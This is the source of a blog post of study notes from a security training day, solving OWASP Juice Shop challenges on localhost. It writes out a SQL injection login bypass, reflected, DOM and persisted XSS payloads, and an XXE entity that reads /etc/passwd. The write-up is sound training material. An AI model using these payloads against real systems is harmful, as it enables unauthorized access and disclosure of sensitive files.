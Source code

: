```yaml
---
layout:            post
title:             Security Training Day 2
lang:                en
date:              2019-01-23 20:41:20 +0100
categories:        [tech]
tags:              [security, http, browser]
permalink:         /2019/01/23/security-training-day-2/
comments:          true
excerpt:           >
    My study notes of security training (day 2), including some ways of SQL
    injection, Cross-site scripting (XSS), and XML External Entity (XXE).
image:             /assets/bg-security-265130_1280.jpg
cover:             /assets/bg-security-265130_1280.jpg
article_header:
  type: overlay
  theme: dark
  background_color: "#203028"
  background_image:
    gradient: "linear-gradient(135deg, rgba(0, 0, 0, .6), rgba(0, 0, 0, .4))"
---
```


## Overview

This post is mainly a review of what have been taught during the security
training in day 2. In aims to share knowledge and make us aware of the
importance of security. After reading this article, you will understand:

- SQL Injection
- XSS: Cross-Site Scripting
- XXE: XML External Entity

Reminder: the security tools used here are [ZAP
Proxy](https://github.com/zaproxy/zaproxy) and [Juice
Shop](https://github.com/bkimminich/juice-shop) -- probably the most modern and
sophisticated insecure web application.

## SQL Injection

A [SQL injection attack](https://www.owasp.org/index.php/SQL_Injection)
consists of insertion or "injection" of a SQL query via the input data from the
client to the application. A successful SQL injection exploit can read
sensitive data from the database, modify database data (Insert/Update/Delete),
execute administration operations on the database (such as shutdown the DBMS),
recover the content of a given file present on the DBMS file system and in some
cases issue commands to the operating system. SQL injection attacks are a type
of injection attack, in which SQL commands are injected into data-plane input
in order to effect the execution of predefined SQL commands. This section solves
SQL Injection challenge in Juice Shop.

**Login Admin.** Log in with the administrator's user account. Firstly, go to
login page <http://localhost:3000/#/login>, enter an arbitrary login and
password, such as `foo@example.com` and `123`. UI shows "Invalid user or
password". Now, inspect HTTP request and response in ZAP Proxy where the url of
the entry is <http://localhost:3000/rest/user/login>. Open request editor and
edit the request body (excerpt 1). By the way, we can also imagine the SQL
query should be similar to the following form (excerpt 2).

```json
{
  "email" : "foo@example.com",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='foo@example.com' AND pass='123'
```

The SQL injection can be done as the first query parameter `email`. Use simple
quote `'` to end the quote (just in case), use criterion `OR 1=1` to ensure the
WHERE clause is always true and does not depend on email value, and use comment
`--` to comment the rest of the query. So the modification and expected SQL
looks like the following:

```json
{
  "email" : "' OR 1=1; --",
  "password" : "123"
}
```

```sql
SELECT *
  FROM Users
 WHERE email='' OR 1=1; -- ' AND pass='123'
```

The response returns the email of admin account with the correct token:

```json
{
  "authentication" : {
    "token" : "eyJhbG...",
    "bid" : 1,
    "umail" : "admin@juice-sh.op"
  }
}
```

Understand the usage of token `eyJhbG...` by inspecting the source code of
`main.js`, and finds out that user token will be saved in browser's local
storage after login action:

```js
this.userService.login(this.user).subscribe(function (n) {
  localStorage.setItem('token', n.token),
  l.cookieService.put('token', n.token),
  sessionStorage.setItem('bid', n.bid),
  l.userService.isLoggedIn.next(!0),
  l.router.navigate(['/search'])
}, function (n) { ... }
```

Therefore, we can set token to local storage manually to be able to simulate the
login action in browser console. After that, the login is successful as
expected.

```js
localStorage.setItem('token', 'eyJhbG...');
```

## Cross-Site Scripting (XSS)

[Cross-Site Scripting
(XSS)](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)) attacks are
a type of injection, in which malicious
scripts are injected into otherwise benign and trusted websites. XSS attacks
occur when an attacker uses a web application to send malicious code, generally
in the form of a browser side script, to a different end user. Flaws that allow
these attacks to succeed are quite widespread and occur anywhere a web
application uses input from a user within the output it generates without
validating or encoding it. There're 3 types of XSS:

- Reflected XSS
- Persisted XSS
- DOM Based XSS

Different XSS filter can be found at [OWASP - XSS Filter Evasion
CheatSheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet).
This section solves different XSS challenges in Juice Shop.

**XSS Tier 0.** Perform a reflected XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by providing a
malicious query parameter Order ID (`id`) in Track Result module
<http://localhost:3000/#/track-result?id=myOrder>. Using the following query
param will trigger a reflected XSS (value is url-encoded):

    http://localhost:3000/#/track-result?id=%3Ciframe%20src%3D%22javascript:alert(%60xss%60)%22%3E

**XSS Tier 1**. Perform a DOM XSS attack with
``<iframe src="javascript:alert(`xss`)">``. This can be done by manipulating the
query param `q` in "search" module (<http://localhost:3000/#/search?q=apple>).
The result is not escaped, which leads to XSS.

<p align="center">
  <img src="/assets/20190123-xss-1.png"
       alt="XSS Tier 1">
</p>

**XSS Tier 2.** Perform a persisted XSS attack with
``<iframe src="javascript:alert(`xss`)">`` bypassing a client-side security
mechanism. This can be done by manipulating the user creation form. Go to
register page <http://localhost:3000/#/register> and enter username / password
as `foo@example.com` and `12345`. Then, modify the HTTP request in ZAP Proxy and
resend the request to server:

```json
{
  "email" : "foo@example.com<iframe src=\"javascript:alert(`xss`)\">",
  "password" : "12345",
  "passwordRepeat" : "12345",
  "securityQuestion" : {
    "id" : 1,
    "question" : "Your eldest siblings middle name?",
    "createdAt" : "2019-01-23T19:56:54.665Z",
    "updatedAt" : "2019-01-23T19:56:54.665Z"
  },
  "securityAnswer" : "12345"
}
```

When internal users visit the admin page
<http://localhost:3000/#/administration>, an XSS will be triggered.

## XML External Entity (XXE) Processing

An [XML External Entity attack][1] is a type of attack against an application
that parses XML input. This attack occurs when XML input containing a reference
to an external entity is processed by a weakly configured XML parser. This
attack may lead to the disclosure of confidential data, denial of service,
server side request forgery, port scanning from the perspective of the machine
where the parser is located, and other system impacts. This section solves XXE
challenge in Juice Shop.

**XXE Tier 1.** Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd`
from the server. First of all, we need to feed an entry-point for uploading
files, so that our XML file can be read by the server. One possibility is via
Customer Complain <http://localhost:3000/#/complain>, where a file can be
uploaded. By default, the input element only accepts file types `.pdf` and
`.zip`. This check can be skipped by choosing format option "All Support Types"
when browsing files (maybe different according to OS, I'm using macOS).

```html
<input _ngcontent-c17=""
       accept=".pdf,.zip"
       id="file"
       ng2fileselect=""
       type="file">
```

Then, choose a file to upload. For example, `~/feedback.xml`:

```xml
<msg>hi</msg>
```

Once uploaded, find out the server response and check if it reads the value.
From the response of <http://localhost:3000/file-upload>, we can extract the
following value:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;msg&gt;Hi&lt;/msg&gt; (feedback.xml)

As you can see, the content of feedback has been extracted successfully. Further
more, the content has been expanded: XML header has been added. We can suppose
that XXE is possible in this case. Now, change the content of XML to the
following, where system entity `xxe` is defined and discloses the system
password file:

```xml
<!DOCTYPE msg [
<!ELEMENT msg ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<msg>&xxe;</msg>
```

Upload the same file again with the new content, then inspect the HTTP response
again:

> Error: B2B customer complaints via file upload have been deprecated for security reasons: &lt;?xml version=&quot;1.0&quot; encoding=&quot;UTF-8&quot;?&gt;&lt;!DOCTYPE msg [&lt;!ELEMENT msg ANY&gt;&lt;!ENTITY xxe SYSTEM &quot;file:///etc/passwd&quot;&gt;]&gt;&lt;msg&gt;### User Database# # Note that this file is consulted directly only when the sys... (feedback.xml)

The content is retrieved successfully.

## Conclusion

In this article, we saw the definition and challenges of three common security
problems: SQL Injection, Cross-Site Scripting (XSS) and XML External Entity
(XXE) processing. Through these challenges, we saw the impact of security
problems. Hope you enjoy this article, see you the next time!

[1]: https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing
